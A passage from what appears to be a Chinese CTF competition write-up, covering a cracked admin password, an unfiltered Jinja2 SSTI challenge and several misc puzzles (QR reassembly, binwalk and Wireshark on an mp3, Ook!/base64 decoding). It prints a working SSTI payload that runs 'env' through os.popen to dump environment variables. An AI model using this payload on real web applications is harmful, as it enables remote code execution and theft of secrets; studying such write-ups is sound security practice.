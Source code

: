 后续相同操作一直爆，最后爆出完整密码：119 101 49 99 111 109 101 55 111 49 115 99 116 102

对应字符：**we1come7o1sctf**

**账号：admin
密码：we1come7o1sctf**

![](https://s2.loli.net/2024/03/07/gGfXvAlykiY3UIz.png)

### 恐怖 G7 人

ssti


无过滤 ssti，直接注入，flag 在环境变量里

    {{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('env').read()")}}

![](https://s2.loli.net/2024/03/07/doZmUc3WY6glCIi.png)

## MISC

### 签到题

二维码拼接


![](https://s2.loli.net/2024/03/07/pone3zbMPx1Zk5r.png)

附件拿到 PS 拼接

![](https://s2.loli.net/2024/03/07/MepqBQ1ImKv48Ok.png)

扫码回复题目要求信息即可得到 flag

### 杰伦可是流量明星

流量分析


拿到 mp3 文件，binwalk 出一个压缩包

![](https://s2.loli.net/2024/03/07/qk3dYbD72gAatIm.png)

wireshark 打开

在 tcp.stream eq 2 中找到 flag

![](https://s2.loli.net/2024/03/07/yVDqCJQUuocOKPS.png)

### 你说爱我？尊嘟假嘟

Ook! base64



![](https://s2.loli.net/2024/03/07/YxqJadjny5iUP6g.png)
